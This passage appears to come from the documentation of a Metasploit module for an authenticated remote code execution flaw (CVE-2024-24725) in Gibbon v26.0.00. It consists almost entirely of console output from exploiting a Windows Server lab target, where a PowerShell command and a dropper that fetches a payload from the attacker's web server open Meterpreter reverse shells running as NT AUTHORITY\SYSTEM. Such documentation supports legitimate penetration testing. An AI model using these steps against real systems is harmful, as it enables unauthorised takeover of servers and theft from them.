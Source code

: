 ```shell
target => 3
msf6 exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.4:80 can be exploited.
[+] The target appears to be vulnerable. Gibbon v26.0.00
[*] Executing Windows Command for cmd/windows/powershell/x64/meterpreter/reverse_tcp
[*] Sending stage (201798 bytes) to 192.168.201.4
[*] Meterpreter session 6 opened (192.168.201.8:4444 -> 192.168.201.4:49962) at 2024-04-01 15:11:38 +0000

meterpreter > sysinfo
Computer        : WIN-BJDNH44EEDB
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
### Target 4 - Windows Dropper `windows/x64/meterpreter/reverse_tcp` session
```shell
msf6 exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set target 4
target => 4
msf6 exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.4:80 can be exploited.
[+] The target appears to be vulnerable. Gibbon v26.0.00
[*] Executing Windows Dropper for windows/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:8080/877P8aB3
[*] Client 192.168.201.4 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.1) requested /877P8aB3
[*] Sending payload to 192.168.201.4 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.1)
[*] Sending stage (201798 bytes) to 192.168.201.4
[*] Meterpreter session 7 opened (192.168.201.8:4444 -> 192.168.201.4:49967) at 2024-04-01 15:13:43 +0000
[*] Command Stager progress - 100.00% done (147/147 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer        : WIN-BJDNH44EEDB
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

## Limitations
No limitations except for the fact that you need valid login credentials.
